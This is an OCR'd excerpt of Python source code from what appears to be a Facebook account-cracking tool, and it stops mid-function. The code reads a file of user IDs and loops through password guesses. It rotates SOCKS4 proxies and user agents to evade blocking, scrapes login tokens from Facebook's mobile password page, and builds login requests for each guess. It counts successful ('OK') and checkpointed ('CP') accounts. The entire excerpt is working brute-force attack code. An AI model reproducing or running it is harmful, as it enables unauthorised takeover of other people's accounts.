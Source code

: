             print(f" {H}[{H}×{H}] Select Between y/t");__chigoue__().chi(id)
        self.cnt = input('\033[1;92m[+] Enter File Name :\033[1;92m ')
        self.id = open(self.cnt).read().splitlines()
        os.system('clear')
        ___two___ = ('y')
        if ___two___ in ('yes', 'Yes', 'Y', 'y'):
#            self.__ok__()
            self.__pler__()
        else:
            print(' [!] Choose Correct One')
            self.chi(id)

# PROSES CRACK METODE 3 in 1
    def __metode__(self, cebok, user, pasw):
        global ok,cp,loop
        animasi = random.choice(["\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]","\x1b[1;92m[YUSEP]"])
        sys.stdout.write(f"\r {N}{animasi} {N}{loop}{N}/{M}{len(self.id)} {N}[{H}OK:{len(ok)}{N}][{K}CP:{len(cp)}{N}] [{H}{'{:.1%}'.format(loop/float(len(self.id)))}{N}]")
        sys.stdout.flush()   
        try:os.mkdir('results')
        except:pass
        try:
            for pw in pasw:
                pw = pw.lower()
                session=requests.Session()
                nip=random.choice(prox)
                proxs= {'http': 'socks4://'+nip}
                ua = random.choice(ugen)
                ua2 = random.choice(ugen2)
                session.headers.update({'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
                p = session.get('https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
                dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":user,"next":"https://"+cebok+"/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
                koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
                koki+=' m_pixel_ratio=2.625; wd=412x756'